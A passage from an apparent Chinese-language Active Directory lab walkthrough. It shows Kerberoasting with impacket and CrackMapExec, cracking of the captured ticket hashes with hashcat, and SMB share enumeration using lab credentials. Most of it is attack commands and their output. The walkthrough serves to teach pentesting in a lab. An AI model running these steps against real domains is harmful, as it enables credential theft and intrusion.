> 向SPN服务进行交互,请求Kerberos票据(当用户的TGT被验证为有效时，TGS会向用户发送一张票据，该票据使用与SPN关联服务的计算机服务账号相同的NTLM Hash，比如MSSQL账户的Hash)
>
> 根据字典爆破生成Hash,去尝试打开该Kerberos票据
>
> 如果成功,则获得了MSSQL服务账户的密码
>
> 攻击者可以伪造TGS白银票据,在TGS中标识访问账号为域管理员账号 从而获取服务的域管理员访问权限
>
> 或者用于委派攻击(服务账号大多都会被设置委派，如果是非约束委派，则获取服务账号的口令后，可直接获取域管理员权限)

- 在活动目录中，我们经常会看到设置了 SPN 的用户

使用impacket

```bash
GetUserSPNs.py -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName                                 Name      MemberOf                                                    PasswordLastSet             LastLogon                   Delegation
---------------------------------------------------  --------  ----------------------------------------------------------  --------------------------  --------------------------  -----------
CIFS/winterfell.north.sevenkingdoms.local            jon.snow  CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2023-05-31 05:44:15.433758  <never>                     constrained
HTTP/thewall.north.sevenkingdoms.local               jon.snow  CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2023-05-31 05:44:15.433758  <never>                     constrained
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc                                                               2023-05-31 05:44:31.405820  2023-06-01 20:36:30.667229
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc                                                               2023-05-31 05:44:31.405820  2023-06-01 20:36:30.667229


[-] CCache file is not found. Skipping...
```

使用CME

```bash
cme ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

```bash
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP        192.168.56.11   389    WINTERFELL       [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
LDAP        192.168.56.11   389    WINTERFELL       [*] Total of records returned 4
CRITICAL:impacket:CCache file is not found. Skipping...
LDAP        192.168.56.11   389    WINTERFELL       sAMAccountName: jon.snow memberOf: CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local pwdLastSet: 2023-05-31 05:44:15.433758 lastLogon:<never>
LDAP        192.168.56.11   389    WINTERFELL       $krb5tgs$23$*jon.snow$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local/jon.snow*$d507398bd4a3dae199174e3dd0c2e3d7$366ed44e82df36262a27fef3bc822122199622e5e170d760629fad37b8c8def958a7818a6734f566d0c2d85d091d865de8c2b79127e29076cdb9a5409d6cdbaf3600bbfe5d743b73c9fba0c0d91b7155227a91ea7b0c7cdcf7ffb221351b80280d6e285fadcc54d32da036bfcb0a323ee87daf9919cf6c3511deda75d90a53c1fb9a2d3f34783172af45fc9b4e88a24942f2638fb955c6ff51cdcb439b4646bb81a16ca04593b08ba541d49492a719a1c3b8f6302a5d6d14f116558b1782d0e942b9e5287b41fc74afbae633c0c64e6cfc47575eba7e8db231ebba663191b7d2af7f018e2d8efe10a9db3aebf3a8b00a066067730cd8cce6866be0b9cff1b5d639a3f9f1d47fafef14b61d30f807f30f2deba60227909a0849d11f9e821ebb1fd49afed404bfcb8821e8bdd53923662e09012e5c6f01200ccaf509a79301466782d2a23f366c7b5b657e92a05ba17c9b81dbc93745173977cc72df7e3b438c580155173cdbc6228eda62aa090f8d81cf9d6ea636e8d4ea45cc396889415c3d7db9888cf0626f2cc01d7fe99099a31d114a2fd6833bf3c52f0ac73eb7ab49018e7500e4c6d569683ebb775c358aa14ccccb482954f027570435c4ce7bdc3e843f8d67a8177d6574acabdf1a139898630195f4259ac2b737d4638306b2f2cefc2dff7722ac49471f227998fafbbefe45a354d97fd7626e57a9b2bc9a15cede05fd0f4c4bc8dbd0cc0602adfe001b348317136e2eb4ad3309bc56ea3b097d66dfb0628a1b99ad18e38786d774e927ef0deb5a6f87595b2ab43a3ab8dd5b64aa30f4dca2c97772536ad8991385c80a2cad14d03c0fef7f021de12faf467c2464c6a3885db03d25fe15d901263aebfdc297cea3e823d7dabdac165095b9f5618bc299db1614c4dcb235d06176a8c53174cb5e432332219acc7c1996dd7ecc63a607f55310a1561531acee5c0a55adcd7bff31c70660a229ec340547bb289204150c00f2ec95e12958ac5f0a0e7c11d565ef50a93bd3a8fc2acd59f9309d98ddfcf62402894f0bd6909210354a173524d14eb8386ac535a85aa677b5bd1aaf0836898ef2f5ecf5f18bb77b7584e1c88aa308cb19ba0acb78f614f30036de4bb63a15450d72adc4eeb017b342bcfae3d54eb5aa6691bca18c0f7a20e661727cbaa41a6b470de74bedd015f7e1cad32bd612450cf95cae184d54379d3ef4abff26fa8489035ff2d61bf6a77f9bc65c82c01f05b802f3be57e40cfb856d3f0ce09f46ee443dc6fedf24e468ef85ba00a29af87a89e9c985e50f7d4396bc72f5bf11b79438c91b38911a4d0a365f7dfb8febe7461f79b8ea35fad03f724a634e06b12ae3c5701c9fd8e6773df46806778abae4de00854b3487795d00a07f462a9eea88ad84558db1995a617b3ad17ee3caac7b18c2568e8b44d7357ff5a8d131c8bcb519195fdec3701c9dd24c9e896db54e52fb2846898ead0a8d80fb3f473b49290e09210053e86bbf91cb70941843ab0032c67b776154a803247138fdb1f3fe6ca51a6c9fd668d5da5c888ac2d36e13a23ef13f63238de63c1e3060b8c436d862e5602fc1625d40e8a5789e207611643cef7a47ea06ef9c89be8e3a75034b756d318b999229831188251099438f58db0d47ef278330fd1349b648
LDAP        192.168.56.11   389    WINTERFELL       sAMAccountName: sql_svc memberOf:  pwdLastSet: 2023-05-31 05:44:31.405820 lastLogon:2023-06-01 20:36:30.667229
LDAP        192.168.56.11   389    WINTERFELL       $krb5tgs$23$*sql_svc$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local/sql_svc*$07a49246e2d3a67a40abfb7760bd2746$3a40d816bd65e125919af362116d3e168f820ec871a13d05214124fdbd8cc98fd41cf66378cdc9b35857d92a7914a7982830babb5c6057332545dbb1879254cd3d6bfac64f0723ca3b6ece658bbde813990c0fb728c697f2b0bf73ab3cf72ac24a80022ebfad439a629ff151af37c291f3aaffeb5627fccab9b17ab0a3ee440108aea5f2aaf62b44290d9d3148fbdd90f247d4ad19c85ef224214013de8d3f5d171a1da157f048d1c514294b00976207b26f70e782601bca0740d05a795c66ea1eadc44da1d9a5ebbf4ecc9ec9cd415aad8e2d09a302be2d455a674ca36f256ba1344bd8417b0be1e88005780a9c37caa2af059ac26629539dfb0942175e50b0b7af84480b123a54c80324465f965055096dfe87a6499fe009e626dbb897b397ce8e4900798b4d272ab824a182a1bdecf55fc3ec0de7555e36b62d91e29ee58cf2bffcc1381d2bd9ce8022ca55dd5f9af8b2b0d5bc86070c4d6305d722b6c86ce40efd8d9419bc7083f2561ec1985e03630e28b268b92446c803ec9b1af8ccd2a5540edab221fc9fb0c1a90191301eaaa13c051a1692ce023fa20f09d4d871f3876cb1411e389c31afc55fbf855346e839f281c4330bb39fee72588bf32897e336395b55feeae910526f0cb692e6dc2628f5b89ee1d09cd7dd70ae760589f881b7d7ce42c795e1c123012d97df0c9e5e4b79478b763357d4afb5624bfbdddef1fcb2573177576a8aec3bd12ca0ef88d991804f63046315a8919707e075b3442cee5ede9bc8f4075595270cfde7ea3e5a7258a3f912108c1cdd6ca95f8d67c7f5f8dacc1beeabf49854e1445385f8fe4fb9a65ef43cf9426c51df1fb6b802f5bdc804dd15611d9e4da1f0d86f26306e0d686da101ffa24d948398c1e1406040c9d6cacc9ecf49c1256592fb92352d749df74a6a87f65bc3c3e6ab842a40d802a184af916efe819cb9744df229cae382424d4b9081c4e440feffdf6181b9e2ac00a11220c7e47bfcc682310745e9c5c63e64de7f118c259bfe216f8e20ec15919f463b82d3ac5af0a80f3068987b2961d7e874d81855c58be7df0389a22e7243b0a0b5327d055e1393972bfac0b0bea3f0301ad97cd5c79370329ab86d9f8c538313e3e1ad9a2ffe766e96b6570148af3a4ee9d8d43b47ef7f654a273b8dcf9ce90603bf657a748ef93106bfc5699abc1599be735824e4621e2d8ac9461e490a2a6280708bccca49a2161c44d3117dc7c0614da326045aab60120b5fd564b54f1c3b4ff1ee11137b79399b51998545cdc8aae07cfe99b4de4a3db7514857974977794b20d1a4ace4f05270ecd50089190bfaf5b5fa05ca2f190a0c74d014f873506b22b193e62df0ea11e2fda8a94cdfbecb998fd64e95f1f4f8b2f16386f30e6ac2552df69f08fd960c39cba8ceac2aed03ad94df59b2781715ffa2edf37c6d862814e344ee2ba59ce1f1a6f738b53f9597564588b4d61a4df384724c44e123fddd8b3fe57c0723305cc944fb5ebb8bf3ae9232ff59fe114b99781250f84151ea0198b5712316cc50b85b6f91adb29fc9d22228f8f6b7948f4b73220affc68ce0d7336d33070bf7f09ae6384096b0f7cf65b7babf53b433d6fae56f6e0fa05b7bd619041abbda6c79dcf5ff530a34aade24d8689ec40f30
```

使用hashcat

```bash
hashcat -a 0 -m 13100 kerberoasting.hashes /usr/share/wordlists/rockyou.txt
```

```bash
$krb5tgs$23$*jon.snow$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local/jon.snow*$6f2238acaf9fc98555c3898e93328ca6$9ffc72abcef96ae635f663c7a736966706bf711d99d5f3a184ee5930f384be1aa0fdc2f4e4dd242ffd29f72c6e6694ac46a5e132b10d2405e3fd485674daebccaee9343f995c944ebfa1c25542e593a4abc1aaae9674b37d4c757a5369dfcb08bb5cda47870d53cffd0e27f21d4c310f9f849648ee61fe4cc337e95a37de8ca96d3b758bbc7dfd2919c54b26607248efe6cbade9655e23af6fa17788961dc10598ec38056541e308dd14e55f65508298fd7f365a24eeb9ae341d0733d72403b315a12aade76a321318f68fee896785c40fd3aa12fee34e880ebeb956bf7b1c2ec2e846383c64be753ae39cee11840509f56b6d7b6d0752431c3d1469d7c515441a3545df0427a6681bac35c4eeca2abdf8fc1fe2e7f8877328350e2c25fd959fef71ac7805d5bc7a20a09c4c0987877aac88f4f0065a3fa035a7f2fd64fdc5c4b07048276f3b6b65ef29383525ad3658e430bda5d0544416fefa0c67b3dafab13c01d771ff3978b1bfb30245d2b3d3de4b645d77a998a427da3703f8adfb3765801ef6c926ce15379ea681e37f1e11fa1f08d8f0d2f98cde36849854b0f08580c4ee336811de1da47c17dc74b3f8827c2fbba6860bd0a02d5ef017db2da14f73ccd4b0c03986dfe27bbfc32a5737e1c3ff1a7a01ebfd337841eb7ed7bcffb355e3aea59954d3e90bde7c83034f4f0ed002be2e25e536eb5f0f068625aeef613e481cb10ecd8578565e203d58f9a73362fd33b2295f3dc5dc74b30c4c550aa5736ab5b3b0ee738cc24ef85c487f104781571e6815d40e838ec4dd36679c5bdcdfa51f5736439c72003790fd24905ca9fc1b71062fc71b9983692c221c6da138a8250fa33b8d82ab8d3631378e81f4c74d4a29c754f9f918754e9a374e10091cc34bcae7579e728331230cc86ddf2b941d37fc0bb422c43bd7b410e5934d28c34922603f88ad065968b027172fc712c66c4929fdb6091ac99fe5cedfd48861b59e8576019cec31a18f550cb62621ad63ba10157326c822c53a5c0d576fa71e0cd1fbf55f7e7209d8f8afe7ee4527df9dc5254e75e7761b507e96368211de549ca14b35ab1c01d6662a823c3ac4421add47036f51eb62be3aaaa76f7f410e095eda8421b07454a52a35af66308dcff531c3e23a2bf2a125225b8fc16a9ec97eff7176f1873684e92677215bdfb5140aabc0022ac35a51c017e2ef62184340208ff365f020abd5b5d996ac12cece5db59a35c94c7a5093de3a2d48ccd72e5cac577722b3eb42a1c804556e65a0083031de5229502b98006b22982f022fdaee30c0e55a194c10c4caebc58730e9e03f177499b039389e9c623f13c13ebaea438fd1e3b071776e00ab6fd8846d54a32a484c1ec5601b57d0246c520abe10889cabafc085102dcdf05c3bbb35b725aba2e076ae990db192d403093d27d578074b3ae9968d652439e7e84597f4ecf83dfe417ca10d211639162ed05732e2db760b95ad3a27a50f988957244c88d2d4a739fc8598cf39477c2d4a5c597c377bd347e840804c9a06290504dd48686576eff281b52c3626c0b83aaded36ab6b8cc4087b8cd7e07622f88ffa4af89138fc6b1de96a67e52e1025ec5e0015ca3775575b11c0db7e6adba1afa96aee9c1ee7c0555a9097a4a216aa14aa0d:iknownothing
```

获取另一个用户账户密码

- north.sevenkingdoms.local\jon.snow:iknownothing

### 共享枚举

使用刚才的获得账号密码尝试,有个新的共享文件夹是可读的(在该靶场里什么都没有，但在真正的渗透中可能会经常得到有趣的信息)

```bash
crackmapexec smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares
```

```bash
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:True)
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:True)
SMB         192.168.56.11   445    WINTERFELL       [+] north.sevenkingdoms.local\jon.snow:iknownothing
SMB         192.168.56.11   445    WINTERFELL       [+] Enumerated shares
SMB         192.168.56.11   445    WINTERFELL       Share           Permissions     Remark
SMB         192.168.56.11   445    WINTERFELL       -----           -----------     ------
SMB         192.168.56.11   445    WINTERFELL       ADMIN$                          Remote Admin
SMB         192.168.56.11   445    WINTERFELL       C$                              Default share
SMB         192.168.56.11   445    WINTERFELL       IPC$            READ            Remote IPC
SMB         192.168.56.11   445    WINTERFELL       NETLOGON        READ            Logon server share
SMB         192.168.56.11   445    WINTERFELL       SYSVOL          READ            Logon server share
SMB         192.168.56.12   445    MEEREEN          [+] north.sevenkingdoms.local\jon.snow:iknownothing
SMB         192.168.56.12   445    MEEREEN          [+] Enumerated shares
SMB         192.168.56.12   445    MEEREEN          Share           Permissions     Remark
SMB         192.168.56.12   445    MEEREEN          -----           -----------     ------
SMB         192.168.56.12   445    MEEREEN          ADMIN$                          Remote Admin
SMB         192.168.56.12   445    MEEREEN          C$                              Default share
SMB         192.168.56.12   445    MEEREEN          IPC$                            Remote IPC
SMB         192.168.56.12   445    MEEREEN          NETLOGON        READ            Logon server share
SMB         192.168.56.12   445    MEEREEN          SYSVOL          READ            Logon server share
SMB         192.168.56.22   445    CASTELBLACK      [+] north.sevenkingdoms.local\jon.snow:iknownothing
SMB         192.168.56.10   445    KINGSLANDING     [+] north.sevenkingdoms.local\jon.snow:iknownothing
SMB         192.168.56.23   445    BRAAVOS          [+] north.sevenkingdoms.local\jon.snow:iknownothing
SMB         192.168.56.22   445    CASTELBLACK      [+] Enumerated shares
SMB         192.168.56.22   445    CASTELBLACK      Share           Permissions     Remark
SMB         192.168.56.22   445    CASTELBLACK      -----           -----------     ------
SMB         192.168.56.22   445    CASTELBLACK      ADMIN$                          Remote Admin
SMB         192.168.56.22   445    CASTELBLACK      all             READ,WRITE      Basic RW share for all
SMB         192.168.56.22   445    CASTELBLACK      C$                              Default share
SMB         192.168.56.22   445    CASTELBLACK      IPC$            READ            Remote IPC
SMB         192.168.56.22   445    CASTELBLACK      public          READ            Basic Read share for all domain users
SMB         192.168.56.10   445    KINGSLANDING     [+] Enumerated shares
SMB         192.168.56.10   445    KINGSLANDING     Share           Permissions     Remark
SMB         192.168.56.10   445    KINGSLANDING     -----           -----------     ------
SMB         192.168.56.10   445    KINGSLANDING     ADMIN$                          Remote Admin
SMB         192.168.56.10   445    KINGSLANDING     C$                              Default share
SMB         192.168.56.10   445    KINGSLANDING     CertEnroll      READ            Active Directory Certificate Services share
SMB         192.168.56.10   445    KINGSLANDING     IPC$            READ            Remote IPC
SMB         192.168.56.10   445    KINGSLANDING     NETLOGON        READ            Logon server share
SMB         192.168.56.10   445    KINGSLANDING     SYSVOL          READ            Logon server share
SMB         192.168.56.23   445    BRAAVOS          [+] Enumerated shares
SMB         192.168.56.23   445    BRAAVOS          Share           Permissions     Remark
SMB         192.168.56.23   445    BRAAVOS          -----           -----------     ------
SMB         192.168.56.23   445    BRAAVOS          ADMIN$                          Remote Admin
SMB         192.168.56.23   445    BRAAVOS          all             READ,WRITE      Basic RW share for all
SMB         192.168.56.23   445    BRAAVOS          C$                              Default share
SMB         192.168.56.23   445    BRAAVOS          CertEnroll      READ            Active Directory Certificate Services share
SMB         192.168.56.23   445    BRAAVOS          IPC$                            Remote IPC
SMB         192.168.56.23   445    BRAAVOS          public          READ,WRITE      Basic Read share for all domain users
```

```bash
crackmapexec smb 192.168.56.10-23 -u samwell.tarly  -p Heartsbane -d north.sevenkingdoms.local --shares
```

```bash
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:True)
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:True)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
SMB         192.168.56.22   445    CASTELBLACK      [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
SMB         192.168.56.11   445    WINTERFELL       [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
SMB         192.168.56.12   445    MEEREEN          [+] Enumerated shares
SMB         192.168.56.12   445    MEEREEN          Share           Permissions     Remark
SMB         192.168.56.12   445    MEEREEN          -----           -----------     ------
SMB         192.168.56.12   445    MEEREEN          ADMIN$                          Remote Admin
SMB         192.168.56.12   445    MEEREEN          C$                              Default share
SMB         192.168.56.12   445    MEEREEN          IPC$                            Remote IPC
SMB         192.168.56.12   445    MEEREEN          NETLOGON        READ            Logon server share
SMB         192.168.56.12   445    MEEREEN          SYSVOL          READ            Logon server share
SMB         192.168.56.23   445    BRAAVOS          [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
SMB         192.168.56.10   445    KINGSLANDING     [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
SMB         192.168.56.22   445    CASTELBLACK      [+] Enumerated shares
SMB         192.168.56.22   445    CASTELBLACK      Share           Permissions     Remark
SMB         192.168.56.22   445    CASTELBLACK      -----           -----------     ------
SMB         192.168.56.22   445    CASTELBLACK      ADMIN$                          Remote Admin
SMB         192.168.56.22   445    CASTELBLACK      all             READ,WRITE      Basic RW share for all
SMB         192.168.56.22   445    CASTELBLACK      C$                              Default share
SMB         192.168.56.22   445    CASTELBLACK      IPC$            READ            Remote IPC
SMB         192.168.56.22   445    CASTELBLACK      public          READ            Basic Read share for all domain users
SMB         192.168.56.11   445    WINTERFELL       [+] Enumerated shares
SMB         192.168.56.11   445    WINTERFELL       Share           Permissions     Remark
SMB         192.168.56.11   445    WINTERFELL       -----           -----------     ------
SMB         192.168.56.11   445    WINTERFELL       ADMIN$                          Remote Admin
SMB         192.168.56.11   445    WINTERFELL       C$                              Default share
SMB         192.168.56.11   445    WINTERFELL       IPC$            READ            Remote IPC
SMB         192.168.56.11   445    WINTERFELL       NETLOGON        READ            Logon server share
SMB         192.168.56.11   445    WINTERFELL       SYSVOL          READ            Logon server share
SMB         192.168.56.23   445    BRAAVOS          [+] Enumerated shares
SMB         192.168.56.23   445    BRAAVOS          Share           Permissions     Remark
SMB         192.168.56.23   445    BRAAVOS          -----           -----------     ------
SMB         192.168.56.23   445    BRAAVOS          ADMIN$                          Remote Admin
SMB         192.168.56.23   445    BRAAVOS          all             READ,WRITE      Basic RW share for all
SMB         192.168.56.23   445    BRAAVOS          C$                              Default share
SMB         192.168.56.23   445    BRAAVOS          CertEnroll      READ            Active Directory Certificate Services share
SMB         192.168.56.23   445    BRAAVOS          IPC$                            Remote IPC
SMB         192.168.56.23   445    BRAAVOS          public          READ,WRITE      Basic Read share for all domain users
SMB         192.168.56.10   445    KINGSLANDING     [+] Enumerated shares
SMB         192.168.56.10   445    KINGSLANDING     Share           Permissions     Remark
SMB         192.168.56.10   445    KINGSLANDING     -----           -----------     ------
SMB         192.168.56.10   445    KINGSLANDING     ADMIN$                          Remote Admin
SMB         192.168.56.10   445    KINGSLANDING     C$                              Default share
SMB         192.168.56.10   445    KINGSLANDING     CertEnroll      READ            Active Directory Certificate Services share
SMB         192.168.56.10   445    KINGSLANDING     IPC$            READ            Remote IPC
SMB         192.168.56.10   445    KINGSLANDING     NETLOGON        READ            Logon server share
SMB         192.168.56.10   445    KINGSLANDING     SYSVOL          READ            Logon server share
```

```bash
crackmapexec smb 192.168.56.10-23 -u brandon.stark  -p iseedeadpeople -d north.sevenkingdoms.local --shares
```

```bash
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:True)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.10   445    KINGSLANDING     [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:True)
SMB         192.168.56.12   445    MEEREEN          [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
SMB         192.168.56.11   445    WINTERFELL       [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
SMB         192.168.56.22   445    CASTELBLACK      [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
SMB         192.168.56.23   445    BRAAVOS          [+] north.sevenkingdoms.local\brandon.stark:iseedeadpeople
SMB         192.168.56.12   445    MEEREEN          [+] Enumerated shares
SMB         192.168.56.12   445    MEEREEN          Share           Permissions     Remark
SMB         192.168.56.12   445    MEEREEN          -----           -----------     ------
SMB         192.168.56.12   445    MEEREEN          ADMIN$                          Remote Admin
SMB         192.168.56.12   445    MEEREEN          C$                              Default share
SMB         192.168.56.12   445    MEEREEN          IPC$                            Remote IPC
SMB         192.168.56.12   445    MEEREEN          NETLOGON        READ            Logon server share
SMB         192.168.56.12   445    MEEREEN          SYSVOL          READ            Logon server share
SMB         192.168.56.10   445    KINGSLANDING     [+] Enumerated shares
SMB         192.168.56.10   445    KINGSLANDING     Share           Permissions     Remark
SMB         192.168.56.10   445    KINGSLANDING     -----           -----------     ------
SMB         192.168.56.10   445    KINGSLANDING     ADMIN$                          Remote Admin
SMB         192.168.56.10   445    KINGSLANDING     C$                              Default share
SMB         192.168.56.10   445    KINGSLANDING     CertEnroll      READ            Active Directory Certificate Services share
SMB         192.168.56.11   445    WINTERFELL       [+] Enumerated shares
SMB         192.168.56.10   445    KINGSLANDING     IPC$            READ            Remote IPC
SMB         192.168.56.11   445    WINTERFELL       Share           Permissions     Remark
SMB         192.168.56.10   445    KINGSLANDING     NETLOGON        READ            Logon server share
SMB         192.168.56.11   445    WINTERFELL       -----           -----------     ------
SMB         192.168.56.10   445    KINGSLANDING     SYSVOL          READ            Logon server share
SMB         192.168.56.11   445    WINTERFELL       ADMIN$                          Remote Admin
SMB         192.168.56.11   445    WINTERFELL       C$                              Default share
SMB         192.168.56.11   445    WINTERFELL       IPC$            READ            Remote IPC
SMB         192.168.56.11   445    WINTERFELL       NETLOGON        READ            Logon server share
SMB         192.168.56.11   445    WINTERFELL       SYSVOL          READ            Logon server share
SMB         192.168.56.22   445    CASTELBLACK      [+] Enumerated shares
SMB         192.168.56.22   445    CASTELBLACK      Share           Permissions     Remark
SMB         192.168.56.22   445    CASTELBLACK      -----           -----------     ------
SMB         192.168.56.22   445    CASTELBLACK      ADMIN$                          Remote Admin
SMB         192.168.56.22   445    CASTELBLACK      all             READ,WRITE      Basic RW share for all
SMB         192.168.56.22   445    CASTELBLACK      C$                              Default share
SMB         192.168.56.22   445    CASTELBLACK      IPC$            READ            Remote IPC
SMB         192.168.56.22   445    CASTELBLACK      public          READ            Basic Read share for all domain users
SMB         192.168.56.23   445    BRAAVOS          [+] Enumerated shares
SMB         192.168.56.23   445    BRAAVOS          Share           Permissions     Remark
SMB         192.168.56.23   445    BRAAVOS          -----           -----------     ------
SMB         192.168.56.23   445    BRAAVOS          ADMIN$                          Remote Admin
SMB         192.168.56.23   445    BRAAVOS          all             READ,WRITE      Basic RW share for all
SMB         192.168.56.23   445    BRAAVOS          C$                              Default share
SMB         192.168.56.23   445    BRAAVOS          CertEnroll      READ            Active Directory Certificate Services share
SMB         192.168.56.23   445    BRAAVOS          IPC$                            Remote IPC
SMB         192.168.56.23   445    BRAAVOS          public          READ,WRITE      Basic Read share for all domain users
```

```bash
crackmapexec smb 192.168.56.10-23 -u hodor  -p hodor -d north.sevenkingdoms.local --shares
```

```bash
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:True)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:True)
SMB         192.168.56.22   445    CASTELBLACK      [+] north.sevenkingdoms.local\hodor:hodor
SMB         192.168.56.11   445    WINTERFELL       [+] north.sevenkingdoms.local\hodor:hodor
SMB         192.168.56.23   445    BRAAVOS          [+] north.sevenkingdoms.local\hodor:hodor
SMB         192.168.56.10   445    KINGSLANDING     [+] north.sevenkingdoms.local\hodor:hodor
SMB         192.168.56.12   445    MEEREEN          [+] north.sevenkingdoms.local\hodor:hodor
SMB         192.168.56.22   445    CASTELBLACK      [+] Enumerated shares
SMB         192.168.56.22   445    CASTELBLACK      Share           Permissions     Remark
SMB         192.168.56.22   445    CASTELBLACK      -----           -----------     ------
SMB         192.168.56.22   445    CASTELBLACK      ADMIN$                          Remote Admin
SMB         192.168.56.22   445    CASTELBLACK      all             READ,WRITE      Basic RW share for all
SMB         192.168.56.22   445    CASTELBLACK      C$                              Default share
SMB         192.168.56.22   445    CASTELBLACK      IPC$            READ            Remote IPC
SMB         192.168.56.22   445    CASTELBLACK      public          READ            Basic Read share for all domain users
SMB         192.168.56.11   445    WINTERFELL       [+] Enumerated shares
SMB         192.168.56.11   445    WINTERFELL       Share           Permissions     Remark
SMB         192.168.56.11   445    WINTERFELL       -----           -----------     ------
SMB         192.168.56.11   445    WINTERFELL       ADMIN$                          Remote Admin
SMB         192.168.56.11   445    WINTERFELL       C$                              Default share
SMB         192.168.56.11   445    WINTERFELL       IPC$            READ            Remote IPC
SMB         192.168.56.11   445    WINTERFELL       NETLOGON        READ            Logon server share
SMB         192.168.56.11   445    WINTERFELL       SYSVOL          READ            Logon server share
SMB         192.168.56.23   445    BRAAVOS          [+] Enumerated shares
SMB         192.168.56.23   445    BRAAVOS          Share           Permissions     Remark
SMB         192.168.56.23   445    BRAAVOS          -----           -----------     ------
SMB         192.168.56.23   445    BRAAVOS          ADMIN$                          Remote Admin
SMB         192.168.56.23   445    BRAAVOS          all             READ,WRITE      Basic RW share for all
SMB         192.168.56.23   445    BRAAVOS          C$                              Default share
SMB         192.168.56.23   445    BRAAVOS          CertEnroll      READ            Active Directory Certificate Services share
SMB         192.168.56.23   445    BRAAVOS          IPC$                            Remote IPC
SMB         192.168.56.23   445    BRAAVOS          public          READ,WRITE      Basic Read share for all domain users
SMB         192.168.56.12   445    MEEREEN          [+] Enumerated shares
SMB         192.168.56.12   445    MEEREEN          Share           Permissions     Remark
SMB         192.168.56.12   445    MEEREEN          -----           -----------     ------
SMB         192.168.56.12   445    MEEREEN          ADMIN$                          Remote Admin
